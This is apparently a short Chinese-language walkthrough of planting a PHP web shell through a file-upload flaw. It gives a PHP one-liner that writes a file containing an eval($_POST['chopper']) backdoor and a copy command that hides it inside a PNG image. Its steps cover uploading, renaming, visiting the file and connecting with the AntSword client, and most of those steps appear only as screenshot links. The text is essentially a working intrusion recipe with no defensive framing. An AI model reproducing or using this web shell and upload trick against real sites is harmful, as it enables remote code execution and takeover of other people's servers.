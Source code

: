 1.  代码编写
    1.png

```
# php 文件内容 
<?php fwrite(fopen("ningix.php","w"),"<?php eval(\$_POST['chopper']);?>") ?>
cmd $copy tupian.png/d+1.php chopper.png
```

2.文件上传
![fd4d1a39b1e80cdb78d6affd70ead9b9.png](../../_resources/fd4d1a39b1e80cdb78d6affd70ead9b9.png)
3\. 修改文件名
![1e97ee2e4b89dd710086af94413c93f1.png](../../_resources/1e97ee2e4b89dd710086af94413c93f1.png)
4\. 访问文件
![73f2dc87ff33ea5af464fe84602ae57c.png](../../_resources/73f2dc87ff33ea5af464fe84602ae57c.png)

![604169d4cf7c9438f7c7706649c56951.png](../../_resources/604169d4cf7c9438f7c7706649c56951.png)

![e531cd69ba1acb80d8e897f5d6b5af3f.png](../../_resources/e531cd69ba1acb80d8e897f5d6b5af3f.png)

6\. 蚁剑直接连

![fd16c1b008ef94c2f83e9f9c8557c142.png](../../_resources/fd16c1b008ef94c2f83e9f9c8557c142.png)

![474b202316565a16a0f8a2369284d9ba.png](../../_resources/474b202316565a16a0f8a2369284d9ba.png)